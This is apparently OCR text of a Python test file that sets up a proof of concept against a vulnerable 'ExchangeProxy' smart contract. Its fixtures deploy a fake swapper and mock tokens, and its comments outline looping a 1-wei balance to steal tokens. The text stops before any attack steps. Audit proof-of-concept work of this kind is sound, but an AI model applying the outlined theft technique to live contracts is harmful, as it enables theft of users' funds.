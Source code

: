 ```python
def swapper():
  """
    FakeSwapper ##TDO
  """
  ex = FakeSwapper.deploy({"from": a[0]})

  return ex


@pytest.fixture()
def exchange_proxy(swapper):
  """
    In scope contract that is vulnerable
    Edited to receive swapper instead of it being passed via asm
  """

  proxy = ExchangeProxy.deploy(swapper, {"from": a[9]})

  return proxy

@pytest.fixture()
def token_in(customer):
  """
    Token we will sell
  """
  token_in = ERC20USDCMock.deploy({"from": customer})

  return token_in

@pytest.fixture()
def token_out(swapper, token_in):
  """
    Token we will steal
  """

  token_out = ERC20USDCMock.deploy({"from": swapper})
  token_in.mint(swapper, 1e24, {"from": swapper})

  return token_out


@pytest.fixture()
def attacker(token_out):
  """
    Genuine customer will proper swap
  """

  attacker = a[1]
  
  ## Only 1 token to show how we can steal way more
  ## As long as we receive 1 wei of token we can steal everything minus fee of stolen tx
  ## By looping we can steal futher
  token_out.mint(attacker, 1)

  return a[1]

def test_steal_fees(token_in, token_out, exchange_proxy, swapper, customer, attacker):
  ## Ensure we can payout
  assert token_out.balanceOf(swapper) > 0


  ## == Perform first genuine swap == ##

```